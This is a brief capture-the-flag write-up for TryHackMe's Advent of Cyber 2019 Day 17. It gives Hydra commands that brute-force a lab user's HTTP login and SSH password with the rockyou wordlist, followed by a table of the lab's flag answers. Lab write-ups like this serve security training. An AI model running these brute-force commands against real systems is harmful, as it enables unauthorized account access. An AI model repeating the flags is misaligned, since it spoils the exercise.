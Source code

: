 # Advent of Cyber 01 - 2019
# Day 17
# Hydra ha ha haa

> Machine IP : `10.10.76.60`

> bruteforcing http login: 
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.76.60 http-post-form '/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect.'
```
> bruteforcing ssh password :
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.76.60 ssh -t 5

```

| Que$t1on$ | An$wer$ |
|-----------|---------|
| Use Hydra to bruteforce molly's password. What is flag1 ? | THM{2673a7dd116de68e85c48ec0b1f2612e} |
| Use Hydra to bruteforce molly's SSH. What is flag2 ? | THM{c8eeb0468febbadea859baeb33b2541b} |
